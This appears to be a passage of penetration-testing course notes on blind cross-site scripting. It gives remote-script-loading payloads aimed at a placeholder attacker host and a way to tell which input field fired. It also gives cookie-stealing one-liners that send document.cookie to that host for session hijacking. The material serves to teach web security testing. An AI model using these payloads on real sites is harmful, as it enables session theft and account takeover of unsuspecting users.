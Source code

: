 - Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?

To do so, we can use the same trick we used in the previous section, which is to use a JavaScript payload that sends an HTTP request back to our server.

However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

## Loading a Remote Script

```html
<script src="http://OUR_IP/script.js"></script>
```

```html
<script src="http://OUR_IP/username"></script>
```

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```

## Session Hijacking

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

